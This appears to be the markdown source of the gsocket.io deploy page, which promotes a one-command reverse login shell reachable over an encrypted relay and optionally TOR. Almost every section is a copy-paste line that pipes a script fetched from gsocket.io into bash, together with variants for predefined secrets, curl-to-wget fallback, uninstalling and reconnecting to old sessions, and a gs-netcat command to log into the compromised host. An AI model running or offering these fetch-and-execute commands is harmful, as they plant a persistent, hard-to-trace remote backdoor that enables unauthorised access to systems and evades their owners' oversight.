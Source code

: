 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Can no longer connect to your deployed gs-netcat? Use this command >>*S=YourSecret bash -c "$(curl -fsSL gsocket.io/**xold**)"*<< or >>*S=YourSecret bash -c "$(wget -qO- gsocket.io/**xold**)"*<< to access your old session. [Click here to update to 1.4.32 or later]({{site.github.repository_url}}/blob/master/deploy/README-update.md).</p>

Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
gs-netcat -s ExampleSecretChangeMe -i
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)")
```
  

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>



